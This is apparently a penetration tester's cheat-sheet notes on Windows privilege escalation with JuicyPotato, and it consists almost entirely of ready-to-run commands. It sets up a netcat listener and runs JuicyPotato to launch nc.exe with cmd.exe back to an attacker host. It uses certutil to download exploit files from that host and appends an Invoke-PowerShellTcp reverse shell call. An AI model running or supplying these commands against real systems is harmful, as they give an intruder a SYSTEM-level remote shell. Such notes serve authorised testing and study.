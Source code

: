 ```bash - kali
sudo rlwrap -cAr nc -lvnp 4444
```

```powershell - windows
.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\kohsuke\AppData\Local\Temp\tools\nc.exe -e cmd.exe $KALI 4444" -t *
```

```command prompt - windows
JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\kohsuke\AppData\Local\Temp\tools\nc.exe -e cmd.exe $KALI 4444" -t *
```

#### Juicy Potato Manual
Transfer JuicyPotato.exe, test_clsid.bat and CLSID.list to the victim, in the same folder.

![[Python#Server]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/JuicyPotato.exe && certutil -urlcache -split -f http://$KALI/test_clsid.bat && certutil -urlcache -split -f http://$KALI/CLSID.list
```

```command prompt - windows
.\test_clsid.bat
```

Open result.log

Select anyone CLSID from this list, make sure it had higher authority (NT AUTHORITY\SYSTEM)

[[1._Reverse Shells (WIN)#MSFVenom]]

Transfer reverse.exe to Victim.

![[4._File Transfers#Certutil]]


![[rlwrap]]

```command prompt - windows
JuicyPotato.exe -l 1337 -p reverse.exe -t * -c {687e55ca-6621–4c41-b9f1-c0eddc94bb05}
```


---


```bash - kali
cp Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Mousepad shell-2.ps1, include the following at the bottom:

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 444
```

---

```bash - kali
mousepad shell.bat
```
